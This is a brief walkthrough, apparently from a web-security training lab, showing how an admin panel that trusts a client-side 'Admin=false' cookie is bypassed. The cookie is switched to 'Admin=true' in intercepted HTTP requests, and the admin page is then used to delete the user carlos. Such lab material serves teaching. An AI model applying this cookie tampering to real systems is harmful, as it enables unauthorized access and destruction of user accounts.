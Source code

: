 ### User role controlled by request parameter
```bash

# This lab has an admin panel at /admin, which identifies administrators using a forgeable cookie.

# Solve the lab by accessing the admin panel and using it to delete the user carlos.

# You can log in to your own account using the following credentials: wiener:peter 

Login as wiener:peter
Attempt to access

https://ac141f401fee3b17c0471c99009f00fc.web-security-academy.net/admin

Followed by a GET request of:

GET /admin HTTP/1.1

Cookie: session=FXhMokS0myZHILr6znWh5a3MQeVlk6EO; Admin=false

Post request of:

HTTP/1.1 401 Unauthorized

Send to repeater

Change:

Cookie: session=FXhMokS0myZHILr6znWh5a3MQeVlk6EO; Admin=false

To

Cookie: session=FXhMokS0myZHILr6znWh5a3MQeVlk6EO; Admin=true

Response:

HTTP/1.1 200 OK

Go to this page and delete the username "carlos"
Upon failure
Go to: HTTP history

GET /admin/delete?username=carlos HTTP/1.1

Send to repeater

Change

Cookie: session=FXhMokS0myZHILr6znWh5a3MQeVlk6EO; Admin=false

To

Cookie: session=FXhMokS0myZHILr6znWh5a3MQeVlk6EO; Admin=true

```
